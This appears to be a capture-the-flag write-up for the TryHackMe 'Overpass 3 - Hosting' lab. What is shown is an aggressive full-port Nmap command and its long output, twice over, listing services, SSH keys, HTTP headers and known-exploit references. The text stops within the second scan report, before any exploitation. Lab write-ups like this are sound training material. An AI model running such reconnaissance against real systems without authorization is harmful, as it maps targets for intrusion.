


# TryHackMe(THM) - Overpass 3 - Hosting - WriteUp

> Austin Lai | August 24th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - Overpass 3 - Hosting](https://tryhackme.com/room/overpass3hosting)

Difficulty: **Medium**

The room is completed on Jul 24th, 2021

```text
You know them, you love them, your favourite group of broke computer science students have another business venture! Show them that they probably should hire someone for security...
```

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [TryHackMeTHM - Overpass 3 - Hosting - WriteUp](#tryhackmethm---overpass-3---hosting---writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Task 1

```text
After Overpass's rocky start in infosec, and the commercial failure of their password manager and subsequent hack, they've decided to try a new business venture.

Overpass has become a web hosting company!

Unfortunately, they haven't learned from their past mistakes.

Rumour has it, their main web server is extremely vulnerable.

Warning: This box can take around 5 minutes to boot if you're not a subscriber.

As a subscriber, it will be ready much faster.

I will review writeups for this room starting from 1 week after release.

Before then, please do not publish writeups. Keeping them unlisted is fine but please do not share them.

You're welcome to stream this room once writeups are approved.

Banner Image from Nastuh Abootalebi on Unsplash
```

_Web Flag_

_User Flag_

_Root Flag_

## Let's Begin Here !!!

Nmap result:

```text
# Nmap 7.91 scan initiated Sat Jul 24 08:29:48 2021 as: nmap --privileged --stats-every 15s -vvvvvv -n -Pn -p- -r -A -sCSV -O --version-all -T4 --min-parallelism 30 --min-rate 300 --script=safe --script-trace --reason --append-output -oN TryHackMe-full-safe-scan-Overpass3-Hosting-initial 10.10.186.192 Overpass3-Hosting-initial 10.10.186.192
Failed to resolve "Overpass3-Hosting-initial".
Nmap scan report for 10.10.186.192
Host is up, received user-set (0.26s latency).
Scanned at 2021-07-24 08:33:26 Malay Peninsula Standard Time for 504s
Not shown: 65532 filtered ports
Reason: 65180 no-responses and 352 admin-prohibiteds
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
|_banner: 220 (vsFTPd 3.0.3)
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.0 (protocol 2.0)
|_banner: SSH-2.0-OpenSSH_8.0
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDfSHQR3OtIeAUFx18phN/nfAIQ2uGHuJs0epoqF184E4Xr8fkjSFJHdA6GsVyGUjdlPqylT8Lpa+UhSSegb8sm1So8Nz42bthsftsOxMQVb/tpQzMUfjcxQOiyVmgxfEqs2Zzdv6GtxwgZWhKHt7T369ejxnVrZhn0m6jzQNfRhVoQe/jC20RKvBf8l8s6/SusbZR5SFfsg71KyrSKOXOxs12GhXkdbP32K3sXVEpWgfCfmIZAc2ZxNtL5uPCM4AOfjIFJHl1z9EX04ZjQ1rMzzOh9pD/b+W2mXt2nQGzRPnc8LyGDE0hFtw4+lBCoiH8zIt14S7dwbFFV1mWxbtZXVf7JhPiZDM2vBfqyowsDZ5oc2qyR+JEU4pqeVhRygs41isej/el19G8+ehz4W07KR97eM2omB25JehO7E4tpX1l8Imjs1XjqhhVuGE2tru/p62SRQOKzRZ19MCIFPxleSLorrHq/uuKdvd8j6rm0A9BrCsiB6gmPfal6Kr55vlU=
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAPAji9Nkb2U9TeP47Pz7BEa943WGOeu5XrRrTV0+CS0eGfNQyZkK6ZICNdeov65c2NWFPFsZTFjO8Sg+e2n/lM=
|   256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM/U6Td7C0nC8tiqS0Eejd+gQ3rjSyQW2DvcN0eoMFLS
| ssh2-enum-algos: 
|   kex_algorithms: (11)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group14-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group-exchange-sha1
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       rsa-sha2-512
|       rsa-sha2-256
|       ssh-rsa
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (7)
|       aes256-gcm@openssh.com
|       chacha20-poly1305@openssh.com
|       aes256-ctr
|       aes256-cbc
|       aes128-gcm@openssh.com
|       aes128-ctr
|       aes128-cbc
|   mac_algorithms: (8)
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha2-256
|       hmac-sha1
|       umac-128@openssh.com
|       hmac-sha2-512
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
| vulners: 
|   cpe:/a:openbsd:openssh:8.0: 
|     	EDB-ID:21018	10.0	https://vulners.com/exploitdb/EDB-ID:21018	*EXPLOIT*
|     	CVE-2001-0554	10.0	https://vulners.com/cve/CVE-2001-0554
|     	CVE-2020-15778	6.8	https://vulners.com/cve/CVE-2020-15778
|     	CVE-2010-4816	5.0	https://vulners.com/cve/CVE-2010-4816
|     	CVE-2019-16905	4.4	https://vulners.com/cve/CVE-2019-16905
|     	MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	*EXPLOIT*
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|_    	CVE-2007-2768	4.3	https://vulners.com/cve/CVE-2007-2768
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.37 ((centos))
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.186.192
|     
|     Path: http://10.10.186.192:80/
|     Line number: 21
|     Comment: 
|_        <!-- 0.99999% is 5 nines, right? -->
|_http-date: Sat, 24 Jul 2021 00:40:55 GMT; +2s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers: 
|   Date: Sat, 24 Jul 2021 00:40:59 GMT
|   Server: Apache/2.4.37 (centos)
|   Last-Modified: Tue, 17 Nov 2020 20:42:56 GMT
|   ETag: "6ea-5b4538a1d1400"
|   Accept-Ranges: bytes
|   Content-Length: 1770
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-malware-host: Host appears to be clean
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-mobileversion-checker: No mobile version detected.
| http-php-version: Logo query returned unknown hash 408c41d1519e1d33a051def02afdfb92
|_Credits query returned unknown hash 408c41d1519e1d33a051def02afdfb92
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
| http-trace: TRACE is enabled
| Headers:
| Date: Sat, 24 Jul 2021 00:40:57 GMT
| Server: Apache/2.4.37 (centos)
| Connection: close
| Transfer-Encoding: chunked
|_Content-Type: message/http
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
| vulners: 
|   Apache httpd 2.4.37: 
|     	HTTPD:109158785130C454EF1D1CDDD4417560	7.8	https://vulners.com/httpd/HTTPD:109158785130C454EF1D1CDDD4417560
|     	MSF:ILITIES/UBUNTU-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/FREEBSD-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11984/	*EXPLOIT*
|     	HTTPD:9AD76A782F4E66676719E36B64777A7A	7.5	https://vulners.com/httpd/HTTPD:9AD76A782F4E66676719E36B64777A7A
|     	HTTPD:126D03F016241FBEDC0253722047ACEA	7.5	https://vulners.com/httpd/HTTPD:126D03F016241FBEDC0253722047ACEA
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/	7.2	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/	7.2	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/	*EXPLOIT*
|     	HTTPD:4CB68AD1C4AC4E8EE009A960A68B7E65	7.2	https://vulners.com/httpd/HTTPD:4CB68AD1C4AC4E8EE009A960A68B7E65
|     	EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	7.2	https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	*EXPLOIT*
|     	1337DAY-ID-32502	7.2	https://vulners.com/zdt/1337DAY-ID-32502	*EXPLOIT*
|     	HTTPD:D66D5F45690EBE82B48CC81EF6388EE8	6.8	https://vulners.com/httpd/HTTPD:D66D5F45690EBE82B48CC81EF6388EE8
|     	HTTPD:3512E3F62E72F03B59F5E9CF8ECB3EEF	6.4	https://vulners.com/httpd/HTTPD:3512E3F62E72F03B59F5E9CF8ECB3EEF
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/	6.0	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0215/	6.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0215/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/	6.0	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/	*EXPLOIT*
|     	HTTPD:720B7778CA309E929672897731D4493B	6.0	https://vulners.com/httpd/HTTPD:720B7778CA309E929672897731D4493B
|     	HTTPD:1476868F8E61526B31CAA5707DE2E715	6.0	https://vulners.com/httpd/HTTPD:1476868F8E61526B31CAA5707DE2E715
|     	HTTPD:05E6BF2AD317E3658D2938931207AA66	6.0	https://vulners.com/httpd/HTTPD:05E6BF2AD317E3658D2938931207AA66
|     	HTTPD:8DF9389A321028B4475CE2E9B5BFC7A6	5.8	https://vulners.com/httpd/HTTPD:8DF9389A321028B4475CE2E9B5BFC7A6
|     	HTTPD:5FF2D6B51D8115FFCB653949D8D36345	5.8	https://vulners.com/httpd/HTTPD:5FF2D6B51D8115FFCB653949D8D36345
|     	EDB-ID:47689	5.8	https://vulners.com/exploitdb/EDB-ID:47689	*EXPLOIT*
|     	1337DAY-ID-33577	5.8	https://vulners.com/zdt/1337DAY-ID-33577	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/FREEBSD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/	*EXPLOIT*
|     	HTTPD:FCCF5DB14D66FA54B47C34D9680C0335	5.0	https://vulners.com/httpd/HTTPD:FCCF5DB14D66FA54B47C34D9680C0335
|     	HTTPD:EB26BC6B6E566C865F53A311FC1A6744	5.0	https://vulners.com/httpd/HTTPD:EB26BC6B6E566C865F53A311FC1A6744
|     	HTTPD:CEEECD1BF3428B58C39137059390E4A1	5.0	https://vulners.com/httpd/HTTPD:CEEECD1BF3428B58C39137059390E4A1
|     	HTTPD:C7D6319965E27EC08FB443D1FD67603B	5.0	https://vulners.com/httpd/HTTPD:C7D6319965E27EC08FB443D1FD67603B
|     	HTTPD:C1BCB024FBDBA4C7909CE6FABA8E1422	5.0	https://vulners.com/httpd/HTTPD:C1BCB024FBDBA4C7909CE6FABA8E1422
|     	HTTPD:AAC1059FE0E9684FAF0639E105E0C314	5.0	https://vulners.com/httpd/HTTPD:AAC1059FE0E9684FAF0639E105E0C314
|     	HTTPD:AA09285A8811F9F8A1F82F45122331AD	5.0	https://vulners.com/httpd/HTTPD:AA09285A8811F9F8A1F82F45122331AD
|     	HTTPD:975FD708E753E143E7DFFC23510F802E	5.0	https://vulners.com/httpd/HTTPD:975FD708E753E143E7DFFC23510F802E
|     	HTTPD:60420623F2A716909480F87DB74EE9D7	5.0	https://vulners.com/httpd/HTTPD:60420623F2A716909480F87DB74EE9D7
|     	HTTPD:5C8B0394DE17D1C29719B16CE00F475D	5.0	https://vulners.com/httpd/HTTPD:5C8B0394DE17D1C29719B16CE00F475D
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/	4.9	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/	*EXPLOIT*
|     	HTTPD:2F7A93926BF5E6C2E4D1EFB6F2BEEE01	4.9	https://vulners.com/httpd/HTTPD:2F7A93926BF5E6C2E4D1EFB6F2BEEE01
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/DEBIAN-CVE-2019-10092/	4.3	https://vulners.com/metasploit/MSF:ILITIES/DEBIAN-CVE-2019-10092/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/	*EXPLOIT*
|     	HTTPD:E3E8BE7E36621C4506552BA051ECC3C8	4.3	https://vulners.com/httpd/HTTPD:E3E8BE7E36621C4506552BA051ECC3C8
|     	HTTPD:D9B9375C40939357C5F47F1B3F64F0A1	4.3	https://vulners.com/httpd/HTTPD:D9B9375C40939357C5F47F1B3F64F0A1
|     	EDB-ID:47688	4.3	https://vulners.com/exploitdb/EDB-ID:47688	*EXPLOIT*
|     	1337DAY-ID-33575	4.3	https://vulners.com/zdt/1337DAY-ID-33575	*EXPLOIT*
|     	HTTPD:B900BFA5C32A54AB9D565F59C8AC1D05	2.1	https://vulners.com/httpd/HTTPD:B900BFA5C32A54AB9D565F59C8AC1D05
|     	PACKETSTORM:152441	0.0	https://vulners.com/packetstorm/PACKETSTORM:152441	*EXPLOIT*
|_    	EDB-ID:46676	0.0	https://vulners.com/exploitdb/EDB-ID:46676	*EXPLOIT*
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.4 (92%), Linux 3.10 - 3.13 (92%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=7/24%OT=21%CT=%CU=%PV=Y%DS=4%DC=T%G=N%TM=60FB61CE%P=i686-pc-windows-windows)
SEQ(SP=FC%GCD=1%ISR=108%TI=Z%II=I%TS=A)
SEQ(SP=FD%GCD=1%ISR=108%TI=Z%TS=A)
OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%TG=40%W=6903%O=M508NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 49.374 days (since Fri Jun 04 23:43:34 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

Host script results:
|_clock-skew: 1s
| dns-blacklist: 
|   SPAM
|_    l2.apews.org - FAIL
|_fcrdns: FAIL (No PTR record)
|_firewalk: ERROR: Script execution failed (use -d to debug)
|_ipidseq: ERROR: Script execution failed (use -d to debug)
|_path-mtu: ERROR: Script execution failed (use -d to debug)
|_qscan: ERROR: Script execution failed (use -d to debug)
| traceroute-geolocation: 
|   HOP  RTT     ADDRESS        GEOLOCATION
|   1    97.00   10.4.0.1       - ,- 
|   2    ...
|   3    ...
|_  4    356.00  10.10.186.192  - ,- 

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   97.00 ms  10.4.0.1
2   ... 3
4   356.00 ms 10.10.186.192

Nmap scan report for 10.10.186.192
Host is up, received user-set (0.25s latency).
Scanned at 2021-07-24 08:41:50 Malay Peninsula Standard Time for 506s
Not shown: 65532 filtered ports
Reason: 65174 no-responses and 358 admin-prohibiteds
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
|_banner: 220 (vsFTPd 3.0.3)
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.0 (protocol 2.0)
|_banner: SSH-2.0-OpenSSH_8.0
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDfSHQR3OtIeAUFx18phN/nfAIQ2uGHuJs0epoqF184E4Xr8fkjSFJHdA6GsVyGUjdlPqylT8Lpa+UhSSegb8sm1So8Nz42bthsftsOxMQVb/tpQzMUfjcxQOiyVmgxfEqs2Zzdv6GtxwgZWhKHt7T369ejxnVrZhn0m6jzQNfRhVoQe/jC20RKvBf8l8s6/SusbZR5SFfsg71KyrSKOXOxs12GhXkdbP32K3sXVEpWgfCfmIZAc2ZxNtL5uPCM4AOfjIFJHl1z9EX04ZjQ1rMzzOh9pD/b+W2mXt2nQGzRPnc8LyGDE0hFtw4+lBCoiH8zIt14S7dwbFFV1mWxbtZXVf7JhPiZDM2vBfqyowsDZ5oc2qyR+JEU4pqeVhRygs41isej/el19G8+ehz4W07KR97eM2omB25JehO7E4tpX1l8Imjs1XjqhhVuGE2tru/p62SRQOKzRZ19MCIFPxleSLorrHq/uuKdvd8j6rm0A9BrCsiB6gmPfal6Kr55vlU=
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAPAji9Nkb2U9TeP47Pz7BEa943WGOeu5XrRrTV0+CS0eGfNQyZkK6ZICNdeov65c2NWFPFsZTFjO8Sg+e2n/lM=
|   256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM/U6Td7C0nC8tiqS0Eejd+gQ3rjSyQW2DvcN0eoMFLS
| ssh2-enum-algos: 
|   kex_algorithms: (11)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group14-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group-exchange-sha1
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       rsa-sha2-512
|       rsa-sha2-256
|       ssh-rsa
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (7)
|       aes256-gcm@openssh.com
|       chacha20-poly1305@openssh.com
|       aes256-ctr
|       aes256-cbc
|       aes128-gcm@openssh.com
|       aes128-ctr
|       aes128-cbc
|   mac_algorithms: (8)
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha2-256
|       hmac-sha1
|       umac-128@openssh.com
|       hmac-sha2-512
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
| vulners: 
|   cpe:/a:openbsd:openssh:8.0: 
|     	EDB-ID:21018	10.0	https://vulners.com/exploitdb/EDB-ID:21018	*EXPLOIT*
|     	CVE-2001-0554	10.0	https://vulners.com/cve/CVE-2001-0554
|     	CVE-2020-15778	6.8	https://vulners.com/cve/CVE-2020-15778
|     	CVE-2010-4816	5.0	https://vulners.com/cve/CVE-2010-4816
|     	CVE-2019-16905	4.4	https://vulners.com/cve/CVE-2019-16905
|     	MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	*EXPLOIT*
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|_    	CVE-2007-2768	4.3	https://vulners.com/cve/CVE-2007-2768
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.37 ((centos))
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.186.192
|     
|     Path: http://10.10.186.192:80/
|     Line number: 21
|     Comment: 
|_        <!-- 0.99999% is 5 nines, right? -->
|_http-date: Sat, 24 Jul 2021 00:41:05 GMT; -8m18s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers: 
|   Date: Sat, 24 Jul 2021 00:49:25 GMT
|   Server: Apache/2.4.37 (centos)
|   Last-Modified: Tue, 17 Nov 2020 20:42:56 GMT
|   ETag: "6ea-5b4538a1d1400"
|   Accept-Ranges: bytes
|   Content-Length: 1770
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-malware-host: Host appears to be clean
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-mobileversion-checker: No mobile version detected.
| http-php-version: Logo query returned unknown hash 408c41d1519e1d33a051def02afdfb92
|_Credits query returned unknown hash 408c41d1519e1d33a051def02afdfb92
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
